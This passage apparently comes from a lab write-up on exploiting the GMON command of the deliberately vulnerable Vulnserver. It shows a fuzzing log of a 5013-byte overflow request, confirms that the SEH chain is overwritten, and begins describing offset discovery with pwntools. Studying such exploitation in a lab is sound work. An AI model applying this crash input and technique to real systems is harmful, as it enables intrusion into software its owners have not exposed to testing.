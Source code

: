 ```python
    parser.add_argument('--port', required=True, type=int)
    parser.add_argument('--cmd',required=True)
    args = parser.parse_args()
    main(args.host,args.port,args.cmd)                                           
```

Running our fuzzing script we can see that the application breaks at 5013 bytes again:

```python
[2020-04-13 15:29:08,536]   Test Step: Fuzzing Node 'Request'
[2020-04-13 15:29:08,537]     Info: Sending 5013 bytes...
[2020-04-13 15:29:08,537]     Transmitted 5013 bytes: 47 4d 4f 4e 20 2f 2e 3a 2f 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 [---SNIP---]AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\x00\r\n'
[2020-04-13 15:29:08,539]     Info: Closing target connection...
[2020-04-13 15:29:08,539]     Info: Connection closed.
[2020-04-13 15:29:08,539]   Test Step: Sleep between tests.
[2020-04-13 15:29:08,539]     Info: sleeping for 1.000000 seconds
[2020-04-13 15:29:09,545] Test Case: 3: Request.no-name.3
[2020-04-13 15:29:09,545]     Info: Type: String. Default value: b'FUZZ'. Case 3 of 1441 overall.
[2020-04-13 15:29:09,545]     Info: Opening target connection (192.168.1.98:9999)...
[2020-04-13 15:29:09,549]     Info: Connection opened.
[2020-04-13 15:29:09,549]   Test Step: Callback function
[2020-04-13 15:29:09,549]     Info: Receiving...
```

For the sake of brevity I will cut out the byte length confirmation process as we covered that off pretty well in the last post.

On inspection of the SEH chain in immunity we can see that the SEH record is being over written as shown below:

![image-20200413155408506](/assets/images/vulnserver/GMON/image-20200413155408506.png)

Now we have confirmed that the SEH is being smashed its time to narrow down where the exception record and context record are within our buffer.

### Exploitation

As per our last blog I am going to use the cyclic method from pwntools to generate a unique pattern of bytes. This will allow us to calculate exactly where in our buffer the record gets overwritten.
